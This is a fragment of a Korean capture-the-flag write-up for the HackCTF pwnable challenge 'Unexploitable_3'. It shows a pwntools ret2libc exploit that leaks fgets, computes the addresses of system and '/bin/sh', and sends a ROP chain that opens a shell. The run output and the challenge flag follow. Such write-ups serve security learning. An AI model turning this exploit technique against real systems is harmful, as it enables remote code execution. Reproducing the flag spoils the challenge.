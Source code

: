 p.sendline(payload)

fgets_address=u64(p.recv(6).ljust(8,'\x00'))

libc_base=fgets_address-fgets_offset
system_address=libc_base+system_offset
binsh_address=libc_base+binsh_offset

log.info("fgets_address is "+str(hex(fgets_address)))
log.info("system_address is "+str(hex(system_address)))

p.recvuntil('!\n')

payload2='A'*24
payload2+=p64(pop_rdi_ret)
payload2+=p64(binsh_address)
payload2+=p64(system_address)

p.sendline(payload2)

p.interactive()
</pre>

flag는 다음과 같다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/35.Unexploitable_3$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3034: Done
[*] fgets_address is 0x7f374cb55ad0
[*] system_address is 0x7f374cb2d390
[*] Switching to interactive mode
$ whoami
attack
$ cat flag
HackCTF{bss_4lw4y5_h4s_std1n/std0ut}
</pre>

**flag: HackCTF{bss\_4lw4y5\_h4s\_std1n/std0ut}**

